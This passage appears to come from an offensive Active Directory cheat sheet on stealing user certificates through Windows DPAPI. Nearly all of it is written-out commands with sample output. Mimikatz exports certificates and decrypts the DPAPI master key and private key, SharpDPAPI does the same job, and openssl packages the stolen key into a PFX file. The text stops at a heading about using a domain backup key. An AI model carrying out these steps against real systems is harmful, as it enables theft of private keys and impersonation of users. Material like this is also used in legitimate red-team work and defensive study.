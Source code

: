 ```batch
mimikatz # 
crypto::capi
privilege::debug
crypto::cng

crypto::certificates /export
```

### Certificate theft via DPAPI - THEFT2 & 3

#### User certificates

With the master key :

```powershell
#With SharpDPAPI
SharpDPAPI.exe certificates /mkfile:key.txt


#With Mimikatz
#Export certificate and its public key to DER
cd C:\users\user1\appdata\roaming\microsoft\systemcertificates\my\certificates\
./mimikatz.exe "crypto::system /file:43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8 /export"
	Key Container  : te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab

#Find the master key (test them all until you find the good one)
./mimikatz.exe "dpapi::capi /in:ed6c2461ca931510fc7d336208cb40b5_cd42b893-122c-49c3-85da-c5fff1b0a3ad"
	pUniqueName        : te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab #->good one
	guidMasterKey      : {f216eabc-73af-45dc-936b-babe7ca8ed05}

#Decrypt the master key
./mimikatz.exe "dpapi::masterkey /in:f216eabc-73af-45dc-936b-babe7ca8ed05 /rpc" exit
	key : 40fcaaf0f3d80955bd6b4a57ba5a3c6cd21e5728bcdfa5a4606e1bf0a452d74ddb4e222b71c1c3be08cb4f337f32e6250576a2d105d30ff7164978280180567e
	sha1: 81a2357b28e004f3df2f7c29588fbd8d650f5e70

#Decrypt the private key
./mimikatz.exe "dpapi::capi /in:\"Crypto\RSA\<user_SID>\ed6c2461ca931510fc7d336208cb40b5_cd42b893-122c-49c3-85da-c5fff1b0a3ad\" /masterkey:81a2357b28e004f3df2f7c29588fbd8d650f5e70" exit
	Private export : OK - 'dpapi_private_key.pvk'

#Build PFX certificate
openssl x509 -inform DER -outform PEM -in 43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8.der -out public.pem
openssl rsa -inform PVK -outform PEM -in dpapi_private_key.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:bar -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

With a domain backup key to first decrypt all possible master keys :
